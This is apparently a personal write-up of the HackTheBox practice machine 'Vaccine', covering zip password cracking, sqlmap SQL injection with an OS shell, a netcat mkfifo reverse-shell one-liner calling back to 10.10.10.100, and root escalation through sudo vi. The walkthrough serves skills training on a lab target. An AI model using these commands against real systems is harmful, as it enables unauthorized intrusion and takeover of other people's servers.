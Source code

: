 ## HTB Starting Point: Vaccine
Today I worked on a few of the starting point machines from HackTheBox, as I have decided to hang out over here more. I just wanted to work on some boxes without the hand holding I feel like TryHackMe does. I wanted to do something blindly here and figure it out on my own. That’s not to say anything bad about THM. I love it. It is a great site and I have learned a lot from it, but THM is for learning while HTB is for sharpening. It is the same thing just with the training wheels removed.
So, let us get started on the first of my HTB writeups I will start doing here. This is Vaccine, a standard webserver with some lite password cracking, automated SQL injection to gain a foothold, and a relatively quick privesc after the fact. 
 
### Recon
I began by quickly port scanning the server to see where I could get in. I found a few open ports like ftp (21), ssh (22), and http (80). However, the FTP caught my eye due to an accessible zip file which nmaps default script scan was able to catch.
  
![alt text](https://github.com/RazTheGoon/Vaccine/blob/main/VaccineImages/nmap.jpg)
 
So, I accessed the ftp server as anonymous and was able to get the file onto my local machine. However, upon trying to access it, I found the zip was password protected. This is where this machine’s lite password cracking begins.  
I ran zip2john on the zip file and output the hash to a separate file which I could then run john on. 
```zip2john backup.zip > zip.hash```
```john zip.hash```
This gave me a password which I was able to use to unzip the backup.zip file. Contained inside were 2 files, index.php and style.css  
  
I figured these were files for the webserver but catted them out first to check. Turns out index.php had a username and password within. Though the password was hidden behind some md5. That’s easy enough to correct by using any number of tools. I like [CrackStation](https://www.crackstation.net)
  
![alt text](https://github.com/RazTheGoon/Vaccine/blob/main/VaccineImages/index_cat.jpg)


After getting the username and password, it was time to go check out the website. 
 
I was greeted with a login page which gave me a chance to use the credentials. They worked
  
I found this lovely little page that appears to show a database of available models made by The MegaCorp Car Company.
  
![alt text](https://github.com/RazTheGoon/Vaccine/blob/main/VaccineImages/cars.jpg)
  
Searching the catalog will change the URL to show you query in the URL. This seem like something that could be vulnerable to SQL injection. 
So, I decided to run sqlmap on it to see. 
``` sqlmap -u "http://10.129.95.174/dashboard.php?search=" --cookie="PHPSESSID="```
This confirmed that the search was indeed vulnerable to SQLI via the UNION operator. So, I reran the command with the ```--os-shell``` option to see if I could get a shell as the database user. 
  
![alt text](https://github.com/RazTheGoon/Vaccine/blob/main/VaccineImages/oshell.jpg)
  
It worked! 
  
### Now to get a real shell. 
I decided to go over to [RevShellGenerator]( https://www.revshells.com/) to make a reverse shell that would work correctly. My go-to is the nc mkfifo option. Plugging in my machines IP and preferred port left me with this:

```rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.10.100 6666 >/tmp/f```
   
After setting up my netcat listener and dropping the rev shell into my os-shell, I got a connection!  
  
![alt text](https://github.com/RazTheGoon/Vaccine/blob/main/VaccineImages/revshell.jpg)
  
A quick shell upgrade with

```python3 -c 'import pty; pty.spawn("/bin/bash")'```  
  
### Now to search for a path to escalation. 
Note: I kept experiencing drops of my shell around this time. Sqlmap was unable to connect to the site and I would often lose my reverse shell. I think this was the HTB network, but I could always be wrong. If you have any ideas let me know! I chose to work fast through this inconvenience so pardon the lack of images past this point.
Normally I would pull over a script like linpeas.sh but the drops made me have to work manually. So I went through the file system looking for interesting files to work with. 
Running sudo -l required a password I didn’t have yet.
So, I checked:
/home  
/tmp   
/var/www/html  
In /var/www/html I ran  

```grep -I -R “pass”*```  

And found a cleartext password for the postgres user. Now let’s try ```sudo -l```
This let me know, before disconnecting again, that I could run vi as root. I know for a fact that there is an entry on [GTFObins]( https://gtfobins.github.io/) for that.
  
![alt text](https://github.com/RazTheGoon/Vaccine/blob/main/VaccineImages/gtfobins.jpg)
  
I dropped connection again. So, I decided to go back in through ssh using the password I just found. It worked much better for me after that.
Ok. So now that I have a more stable shell, I can take more descriptive pictures
  
![alt text](https://github.com/RazTheGoon/Vaccine/blob/main/VaccineImages/sudol.jpg)

```sudo -l``` showed me that I can use vi to privesc. A quick search on GTFObins gave me a few attack options. I tried to run ``` sudo vi -c ':!/bin/sh' /dev/null``` but it wasn’t getting me anywhere.

Then I tried the shell breakout methods. Method A didn’t work but method B did. 

First, I ran ```sudo vi /etc/postgresql/11/main/pg_hba.conf```

Then once vi opened I typed 
  
:set shell=/bin/sh
:shell
  
This gave me root!
![alt text](https://github.com/RazTheGoon/Vaccine/blob/main/VaccineImages/root.jpg)

All that was left was to enter my flags on HTB. 
![alt text](https://github.com/RazTheGoon/Vaccine/blob/main/VaccineImages/pwnd.jpg)

Thanks for reading!
